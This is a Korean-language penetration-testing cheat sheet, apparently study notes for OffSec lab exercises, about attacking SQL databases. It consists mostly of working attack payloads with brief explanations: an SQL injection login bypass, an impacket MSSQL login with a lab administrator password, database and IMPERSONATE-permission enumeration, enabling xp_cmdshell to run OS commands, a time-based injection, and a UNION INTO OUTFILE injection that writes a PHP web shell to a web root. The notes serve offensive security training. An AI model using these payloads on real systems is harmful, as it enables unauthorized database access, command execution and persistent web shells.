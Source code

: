 # Login Bypass
```sql
'OR ''='
```

# 🗂 MSSQL Client Connection

```bash
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```
→ **Impacket**의 `mssqlclient.py`를 사용하여 MSSQL 서버에 접속.  
→ `-windows-auth` 옵션은 **Windows 인증**을 사용하여 로그인.

```sql
SELECT @@version;
```
→ MSSQL 서버 버전 확인

```sql
enum_db
```
→ enumeration DB

```sql
SELECT * FROM offsec.information_schema.tables;
```
→ 데이터베이스 `offsec`의 모든 테이블 목록 확인

```sql
SELECT * FROM offsec.dbo.users;
```
→ 데이터베이스 `offsec`의 `users` 테이블 내용 조회

---
# SQL Server - IMPERSONATE 권한 확인
```sql
SELECT DISTINCT b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
    ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE';

EXECUTE AS LOGIN = 'hrappdb-reader'
```
1. **`sys.server_permissions`**
   - SQL Server의 서버 수준 권한 정보를 담고 있는 시스템 뷰입니다.
   - `permission_name` 컬럼에 어떤 권한이 부여됐는지 표시됩니다.

2. **`sys.server_principals`**
   - 서버 수준에서 정의된 보안 주체(Principal) 정보를 담고 있는 뷰입니다.
   - 로그인 계정, Windows 로그인, SQL 로그인, 서버 역할 등이 포함됩니다.

3. **JOIN 조건**
   ```sql
   ON a.grantor_principal_id = b.principal_id
   ```
   - 권한을 부여한 **Grantor(부여자)** 의 ID를 보안 주체와 매칭합니다.
   - 즉, 누가 이 권한을 부여했는지를 확인할 수 있습니다.

4. **WHERE 조건**
   ```sql
   WHERE a.permission_name = 'IMPERSONATE'
   ```
   - `IMPERSONATE` 권한만 필터링합니다.
   - 이는 다른 계정으로 가장할 수 있는 권한을 의미합니다.
---
# 💻 MSSQL Code Execution

```bash
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```
→ 서버 접속 후, **xp_cmdshell** 기능을 활성화하여 시스템 명령어 실행

```sql
-- 1️⃣ 고급 옵션 보기 허용
EXECUTE sp_configure 'show advanced options', 1;
```
> MSSQL의 `sp_configure`는 서버 설정 값을 변경하는 명령입니다.  
> `'show advanced options'` 값을 1로 설정하면, 기본적으로 숨겨져 있는 고급 설정 옵션(예: xp_cmdshell)을 볼 수 있게 됩니다.

```sql
-- 2️⃣ 설정 적용
RECONFIGURE;
```
> 변경한 설정을 즉시 적용합니다.  
> `sp_configure`로 값을 바꾸더라도 `RECONFIGURE`를 실행하지 않으면 실제 적용되지 않습니다.

```sql
-- 3️⃣ xp_cmdshell 기능 활성화
EXECUTE sp_configure 'xp_cmdshell', 1;
```
> `xp_cmdshell`은 SQL 쿼리에서 직접 OS 명령어를 실행하게 해주는 확장 저장 프로시저입니다.  
> 기본적으로 보안상 이유로 비활성화(0) 되어 있습니다.  
> 여기서 1로 설정하여 기능을 켭니다.

```sql
-- 4️⃣ 설정 적용
RECONFIGURE;
```
> 마찬가지로 변경한 `xp_cmdshell` 설정을 즉시 적용합니다.

```sql
-- 5️⃣ OS 명령어 실행
EXECUTE xp_cmdshell 'whoami';
```
> `xp_cmdshell`을 사용해 OS 명령어(`whoami`)를 실행합니다.  
> 결과로 현재 SQL 서버 프로세스가 실행 중인 **Windows 계정**이 출력됩니다.

---


# 🐬 MySQL Code Execution
```sql
' UNION SELECT sleep(5);-- -
```
→ URL ENCODED로 실행해보기

→ 띄워쓰기 on/off

```sql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```
→ SQL 인젝션을 통해 PHP 웹셸 생성  
→ `INTO OUTFILE`을 사용하여 지정 경로(`/var/www/html/tmp/webshell.php`)에 파일 작성  
→ 생성된 파일에 접근 후, `cmd` 파라미터를 통해 명령어 실행 가능  
→ 예: `http://target/tmp/webshell.php?cmd=id`
→ 이미 SQL에 접속한 상태라면 UNION을 제외해보기

---
